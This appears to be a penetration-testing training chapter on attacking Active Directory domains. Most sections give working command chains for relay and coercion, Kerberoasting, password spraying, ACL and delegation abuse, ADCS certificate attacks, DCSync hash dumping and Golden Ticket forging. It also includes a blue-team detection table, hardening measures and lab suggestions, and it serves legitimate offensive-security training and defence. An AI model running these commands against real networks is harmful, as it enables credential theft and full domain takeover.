

# 🏰 Active Directory Attack Path

> Most enterprise networks run Active Directory. Most red-team engagements end with "Domain Admin in 12 hours". AD's complexity — trust relationships, delegation, ACLs, certificates — gives attackers dozens of routes from a single low-privilege user to total domain compromise. This chapter is the canonical attack-path reference.

---

## 1. AD in 5 Minutes



Key components:

- **Domain Controllers (DCs)** hold the directory database (`NTDS.dit`).
- **Kerberos** is the auth protocol. Users get a TGT (Ticket Granting Ticket) and use it to request service tickets.
- **NTLM** is the legacy fallback. Still ubiquitous.
- **GPO (Group Policy)** distributes policies via SYSVOL.
- **AD Certificate Services (ADCS)** issues certificates — and is a goldmine of attacks since 2021.

Pen-testers use AD's own protocols (LDAP, SMB, Kerberos, RPC) against it, plus a few Microsoft features that turn out to be more permissive than intended.

---

## 2. From Zero — No Credentials Yet

If you're on the network but have no valid credentials:

### 2.1 Responder + LLMNR/NBT-NS poisoning

```bash
# On Linux box on same broadcast domain
sudo responder -I eth0 -wd
```

When a Windows host tries to resolve a non-existent name, it falls back to LLMNR (link-local multicast) and NBT-NS (NetBIOS broadcast). Responder answers "yes that's me" and asks for the host to authenticate — capturing the NetNTLMv2 hash.

```bash
# Crack with hashcat
hashcat -m 5600 hashes.txt rockyou.txt
```

Modern fleets disable LLMNR/NBT-NS. If they don't, you get hashes within minutes.

### 2.2 ntlmrelayx — relay it

If SMB signing is *not* required, relay the auth instead of cracking:

```bash
# Find non-signing hosts
nxc smb 10.0.0.0/24 --gen-relay-list relay.txt

# Listen
sudo responder -I eth0 -wd --no-smb --no-http      # turn off SMB/HTTP in responder
sudo impacket-ntlmrelayx -tf relay.txt -smb2support -socks
```

When a victim authenticates against your responder, ntlmrelayx forwards it to a target host. If the user is admin on that host, you have remote code execution — without ever knowing the password.

Modern wins:
- Relay HTTP→LDAP via WebDAV trigger or PrintNightmare → add machine account or grant DCSync.
- Relay HTTP→ADCS Web Enrollment → request a certificate as the relayed identity → use it forever.

### 2.3 PetitPotam / PrinterBug

Tricks a Domain Controller into authenticating to your relay:

```bash
# PetitPotam (CVE-2021-36942 cousin)
python3 PetitPotam.py attacker_ip dc.corp.local

# PrinterBug (older)
python3 printerbug.py corp/anyuser:pwd@dc.corp.local attacker_ip
```

Combined with NTLM relay → ESC8 (ADCS) → certificate as DC$ → DCSync. Domain Admin in one chain.

---

## 3. With Low-Priv Creds — Reconnaissance

Once you have any valid domain user, enumerate.

### 3.1 BloodHound — graph the domain

```bash
# Collect data with bloodhound.py (Linux Python ingestor)
bloodhound.py -d corp.local -u alice -p Summer2026 -ns 10.0.0.5 -c All -dc dc.corp.local

# Or SharpHound on a Windows box
.\SharpHound.exe -c All -d corp.local
```

Import the JSON files into the BloodHound GUI. Built-in queries:
- "Shortest paths to Domain Admins"
- "Find all Domain Admins"
- "Find Kerberoastable users"
- "Find AS-REP roastable users"
- "Find computers with unconstrained delegation"
- "List all owned principals" (mark your foothold to see what you control)

The graph tells you the path. **BloodHound is the single biggest leap in AD attack methodology in the last decade.**

We ship `scripts/ad/bloodhound_analyzer.py` — parses BloodHound JSON exports and prints the shortest paths to high-value targets without needing the GUI.

### 3.2 Other recon tools

```bash
# Read-only LDAP enum (we built this in Phase 2)
python3 ad_ldap_recon.py -d corp.local -u alice -p Summer2026 -s 10.0.0.5 -o report.json

# Kerbrute — username enumeration (no creds needed)
kerbrute userenum -d corp.local --dc 10.0.0.5 users.txt

# Password spray
kerbrute passwordspray -d corp.local --dc 10.0.0.5 users.txt 'Spring2026!'

# Quick "what shares can I read"
nxc smb 10.0.0.0/24 -u alice -p Summer2026 --shares
nxc smb 10.0.0.0/24 -u alice -p Summer2026 -M spider_plus
```

---

## 4. Kerberoasting

Any domain user can request a service ticket for any account that has a Service Principal Name (SPN). The ticket is encrypted with the *service account's password hash* — so we crack offline.

```bash
# Impacket
impacket-GetUserSPNs -dc-ip 10.0.0.5 corp.local/alice:Summer2026 -request -outputfile kerb.txt

# Crack
hashcat -m 13100 kerb.txt rockyou.txt -r rules/best64.rule
```

Service accounts often have weak / never-rotated passwords. Kerberoasting routinely yields a privileged service account → admin on a server → privesc to DA.

We ship `scripts/ad/kerberoast_helper.py` — wraps Impacket's GetUserSPNs with cleaner JSON output and filtering by account type.

---

## 5. AS-REP Roasting

Users with `DONT_REQUIRE_PREAUTH` set on their account → an attacker can request the AS-REP without authenticating; the AS-REP is encrypted with the user's password hash → crack offline.

```bash
impacket-GetNPUsers corp.local/ -dc-ip 10.0.0.5 -usersfile users.txt -no-pass -outputfile asrep.txt
hashcat -m 18200 asrep.txt rockyou.txt
```

Less common than Kerberoasting (PreAuth disabled is rarer than SPNs) but happens — especially on legacy / service accounts.

---

## 6. Password Reuse / Spray

```bash
# Spray a single password across all users (one attempt per user — under lockout threshold)
nxc smb dc.corp.local -u users.txt -p 'Summer2026' --continue-on-success
```

Common winning passwords: `<Season><Year>`, `<Season><Year>!`, `Welcome<N>`, company-name + year. Always check the password policy first (`getdompwinfo`).

---

## 7. ACL Abuse

AD permissions on objects are **ACLs**. BloodHound's "Abusable Edges" cover the catalog:

| Edge | Target | What it lets you do |
|---|---|---|
| `GenericAll` | User | Reset password, set SPN (Kerberoast), shadow credentials |
| `GenericWrite` | User | Set SPN; shadow credentials |
| `WriteOwner` | User | Take ownership → grant yourself rights |
| `WriteDACL` | User | Grant yourself `GenericAll` |
| `ForceChangePassword` | User | Reset their password |
| `AddMember` | Group | Add yourself to it |
| `GenericAll` | Group | Add yourself |
| `GenericAll` | Computer | Resource-Based Constrained Delegation (RBCD) → SYSTEM |

Tools to actually do the abuse:

```bash
# Reset a user's password (you have GenericAll/GenericWrite)
nxc smb dc.corp.local -u alice -p Summer2026 -M change-password -o NEW_USER=victim NEW_PASSWORD=Pwn2026!

# Or via Impacket — set SPN, kerberoast
impacket-addspn -u corp/alice -p Summer2026 -t victim -s 'http/x' dc.corp.local

# Add to group
net group "Domain Admins" attacker /add /domain
# or via PowerView in PowerShell:
Add-DomainGroupMember -Identity 'Domain Admins' -Members alice

# Shadow Credentials (CVE-2022-26923 family):
# whisker (C#) or pyWhisker (Python) writes to msDS-KeyCredentialLink
# then PKINIT via Rubeus / certipy → TGT as victim
pyWhisker.py -d corp.local -u alice -p Summer2026 --target victim --action add
```

---

## 8. Constrained / Unconstrained / Resource-Based Delegation

Delegation is Kerberos's "let me act as someone else" feature. Misconfigurations are devastating.

### 8.1 Unconstrained delegation

A computer/user account marked `TRUSTED_FOR_DELEGATION` receives **forwardable TGTs** from anyone who authenticates to it.

Attack: compromise such a host → wait for a DA to authenticate (or coerce one via PrinterBug/PetitPotam) → extract their TGT from memory → DCSync.

```bash
# On compromised host with unconstrained delegation
Rubeus.exe monitor /interval:5 /nowrap

# Coerce DC:
python3 printerbug.py corp/alice:Summer2026@dc.corp.local THIS_HOST
# Now the DC's TGT lands in your trace; pass-the-ticket → owned.
```

### 8.2 Constrained delegation (S4U)

Account with `msDS-AllowedToDelegateTo: cifs/server` can request tickets as *any user* to that service. If `protocol transition` is enabled, no original creds needed.

```bash
impacket-getST -dc-ip 10.0.0.5 -spn cifs/server.corp.local -impersonate administrator corp.local/svc:Summer2026
export KRB5CCNAME=administrator.ccache
impacket-psexec -k -no-pass administrator@server.corp.local
```

### 8.3 Resource-Based Constrained Delegation (RBCD)

Object writes its OWN delegation target via `msDS-AllowedToActOnBehalfOfOtherIdentity`. If you have `GenericWrite/GenericAll` on a computer object, you can RBCD yourself to its identity:

```bash
# Add a fake computer (any domain user can by default until MachineAccountQuota=0)
impacket-addcomputer -computer-name 'evil$' -computer-pass 'Pwn2026!' -dc-ip 10.0.0.5 corp.local/alice:Summer2026

# Set RBCD: target trusts evil$ to act on its behalf
impacket-rbcd -delegate-from 'evil$' -delegate-to 'TARGET$' -dc-ip 10.0.0.5 -action write corp.local/alice:Summer2026

# Get a service ticket as administrator on TARGET
impacket-getST -spn 'cifs/target.corp.local' -impersonate administrator -dc-ip 10.0.0.5 'corp.local/evil$:Pwn2026!'
```

---

## 9. ADCS Attacks (the new hotness, 2021+)

SpecterOps's "Certified Pre-Owned" research opened up a vast attack surface. Attack categories: **ESC1–ESC11+** (and growing).

| Vector | What it is |
|---|---|
| **ESC1** | Cert template allows enrollee-supplied SAN → request a cert as anyone |
| **ESC2** | Template marked "Any Purpose" + you can enroll → use cert for auth |
| **ESC3** | Enrollment Agent template + agent-anyone trust → request as anyone |
| **ESC4** | You have permissive ACLs on a template → modify it to ESC1 |
| **ESC5** | Permissions on the CA itself |
| **ESC6** | EDITF_ATTRIBUTESUBJECTALTNAME2 flag set on CA → SAN injection |
| **ESC7** | You have CA Manager role → approve/reject → enroll as anyone |
| **ESC8** | NTLM relay to HTTP enrollment endpoint → cert as relayed identity |
| **ESC9** | UPN attribute manipulation |
| **ESC10** | Weak certificate mapping on the DC |
| **ESC11** | NTLM relay to ICPR (RPC) endpoint, modern variant |

```bash
# Certipy enumerates everything:
certipy find -u alice@corp.local -p Summer2026 -dc-ip 10.0.0.5 -vulnerable -stdout

# Exploit ESC1
certipy req -u alice@corp.local -p Summer2026 -ca CORP-CA -template VulnerableTemplate -upn administrator@corp.local

# Now authenticate with the cert
certipy auth -pfx administrator.pfx -dc-ip 10.0.0.5
# → outputs administrator's TGT + NT hash → DCSync
```

ADCS attacks are the **#1 source of "from Domain User to Domain Admin" in 2024–2026 engagements**.

---

## 10. DCSync

The endgame: replicate the entire AD database. With sufficient rights (`Replicating Directory Changes` and `Replicating Directory Changes All`):

```bash
impacket-secretsdump -dc-ip 10.0.0.5 corp.local/admin:'Pwn2026!'@dc.corp.local
# extracts NTDS.dit hashes — every user, every machine account, krbtgt
```

Once you have the **krbtgt** hash, you can mint **Golden Tickets** — TGTs for any user, valid until krbtgt is rotated twice (most orgs never rotate it):

```bash
impacket-ticketer -nthash <KRBTGT_NT_HASH> -domain-sid <DOMAIN_SID> -domain corp.local Administrator
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass Administrator@anything.corp.local
```

You're now persistently DA — even if every password in the domain is changed.

---

## 11. Inter-Forest / Inter-Domain Pivots

Once you own a child domain, climb up:

- **SID History** abuse — old migration artifact lets an attacker forge tickets that grant Enterprise Admin in the parent.
- **Trust ticket** — create an inter-forest ticket via krbtgt of child + trust key; access trusted-forest resources.
- **Foreign Security Principals** — accounts trusted across forests; abuse via ACLs.

These are advanced (PEN-300/OSEP territory) but worth knowing the words.

---

## 12. Hands-On Lab

Build a vulnerable AD lab:
- **GOAD** (Game of Active Directory) — github.com/Orange-Cyberdefense/GOAD — pre-built vulnerable forest
- **AD lab** by myexploit — older but solid
- HackTheBox AD prolabs (Dante, Offshore, Rastalabs, Cybernetics) — paid but excellent
- TryHackMe Throwback / AD pathways

Walk through:
1. Network Recon → kerbrute users → spray
2. BloodHound + manual LDAP recon
3. Kerberoasting / AS-REP-roasting
4. ACL abuse to compromise a target user
5. Compromise a server with admin rights
6. ADCS enumeration with certipy
7. Lateral movement (next chapter — pivoting)
8. DCSync

---

## 13. Detection (Blue-Team View)

| Attack | Telemetry |
|---|---|
| LLMNR/NBT-NS poisoning | Network IDS rules; baseline of who answers LLMNR |
| Kerberoasting | High volume of `4769` (TGS request) for accounts with SPNs, especially RC4 |
| AS-REP roasting | Event ID `4768` with PreAuthType=0 |
| Password spraying | Many `4625` (failed login) across many accounts from one source |
| BloodHound's SharpHound | Many LDAP queries from one host; characteristic patterns |
| Mimikatz / DCSync | Event 4662 with `Replicating Directory Changes` GUID |
| ADCS abuse | Event ID 4886/4887 (cert request) + anomalous SANs |
| Golden Ticket use | Tickets with mismatched timestamps/PAC anomalies; Sysmon Event 1 |

Defensive musts in 2026:
- LSA Protection (`RunAsPPL=1`)
- Credential Guard
- LAPS (local admin password rotation)
- Tier-0 model — DAs only log on to DCs / PAWs
- Kerberos AES-only, RC4 disabled
- ADCS templates audited; PetitPotam mitigations applied
- Microsoft Defender for Identity — detects most of the above

---

## 14. Interview Questions

- Walk through Kerberoasting end-to-end.
- What's the difference between unconstrained, constrained, and RBCD delegation?
- ADCS ESC1 — explain it.
- What does a Golden Ticket give you, and what does Silver Ticket give you?
- A user has `GenericWrite` on a computer object. Walk to admin on it.
- How would you detect, from a SOC, that BloodHound was run?

---

## 15. Tools Quick Reference

| Tier | Tools |
|---|---|
| Recon | BloodHound + SharpHound / bloodhound.py, `kerbrute`, our `ad_ldap_recon.py` |
| Auth tools | Impacket suite (psexec/wmiexec/secretsdump/getNPUsers/getUserSPNs/getST/ticketer/addspn/rbcd/addcomputer) |
| Modern client | NetExec (`nxc`) |
| Kerberos | `Rubeus` (Windows), `Impacket` |
| ADCS | `Certipy`, `Certify` (C#) |
| Coerce auth | `PetitPotam`, `printerbug`, `coercer` |
| Relay | `ntlmrelayx` |
| Cracking | `hashcat`, `john` |

---

## 16. Further Reading

- **HackTricks AD methodology** — book.hacktricks.wiki/en/windows-hardening/active-directory-methodology
- Sean Metcalf's [adsecurity.org](https://adsecurity.org/) — encyclopedia
- SpecterOps's "Certified Pre-Owned" PDF (ADCS bible)
- *Hacking AD* by Mayfly277 (free GitHub book)
- ZeroPointSecurity CRTO / CRTL (paid courses, world-class)

---

[← Windows Privesc](windows-privesc.md) · [Wireless Attacks →](wireless.md)
